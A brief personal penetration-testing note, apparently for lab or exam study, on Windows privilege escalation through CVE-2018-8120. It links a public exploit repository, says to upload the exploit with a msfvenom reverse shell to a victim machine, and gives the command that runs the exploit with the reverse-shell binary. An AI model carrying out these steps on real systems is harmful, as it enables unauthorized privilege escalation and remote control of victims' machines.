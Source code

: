 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

Upload file along with a msfvenom reverse shell to victim.

![[4._File Transfers#Certutil]]

```command prompt - wiudows
./x86.exe reverse86.exe
```









